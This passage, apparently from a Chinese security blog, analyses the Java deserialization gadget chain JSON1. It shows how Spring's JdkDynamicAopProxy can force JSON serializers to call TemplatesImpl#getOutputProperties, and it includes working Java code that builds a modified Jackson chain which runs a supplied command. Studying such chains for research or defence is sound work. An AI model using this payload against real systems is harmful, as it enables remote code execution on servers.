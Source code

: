 代码很长，简单概括一下，`JdkDynamicAopProxy` 类的 `advised` 成员是一个 `org.springframework.aop.framework.AdvisedSupport` 类型的对象，它的 `targetSource` 成员中保存了 `JdkDynamicAopProxy` 类代理的接口的实现类。

当代理类上的一个接口方法被调用时，这个 `handler` 就会尝试调用 `targetSource` 成员保存的实现类对象所实现的对应方法。

所以这里 JSON1 链是先使用 commons-beanutils 这个库获取代理类所有的 `getter` 方法，然后调用代理类的 `getter` 方法，触发 `JdkDynamicAopProxy` 类的 `invoke` 方法。

同时应该注意到，**当我们使用反射获取一个代理类上的所有方法时，只能获取到其代理的接口方法**。

我们的目的应该是让代理类仅仅包含我们需要的方法 `getOutputProperties`。

查看 `TemplatesImpl` 实现的 `javax.xml.transform.Templates` 这个接口。

可以看到它只有一个 `getter` 方法，就是我们需要的 `getOutputProperties` 方法。

```bash
public interface Templates {

    Transformer newTransformer() throws TransformerConfigurationException;

    Properties getOutputProperties();
}
```

所以这里提取出 JSON1 链解决 JSON 序列化库类型依赖触发 `getter` 不稳定问题的思路如下：

1.  构造一个 `JdkDynamicAopProxy` 类型的对象，将 `TemplatesImpl` 类型的对象设置为 `targetSource`
2.  使用这个 `JdkDynamicAopProxy` 类型的对象构造一个代理类，代理 `javax.xml.transform.Templates` 接口
3.  JSON 序列化库只能从这个 `JdkDynamicAopProxy` 类型的对象上找到 `getOutputProperties` 方法
4.  通过代理类的 `invoke` 机制，触发 `TemplatesImpl#getOutputProperties` 方法，实现恶意类加载

这需要添加一个 Spring AOP 的依赖，但是在 SpringBoot 环境下默认是存在这个依赖的。

## JACKSON 链的修改

生成修改过的 JACKSON 链，代码如下：

```bash
public static byte[] getJSON2(String cmd) throws Exception {
                // step 1
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
                // step 2
        POJONode node = new POJONode(makeTemplatesImplAopProxy(cmd));
                // step 3
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);

        return serialize(val);
    }

    public static Object makeTemplatesImplAopProxy(String cmd) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(makeTemplatesImpl(cmd));
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }
```

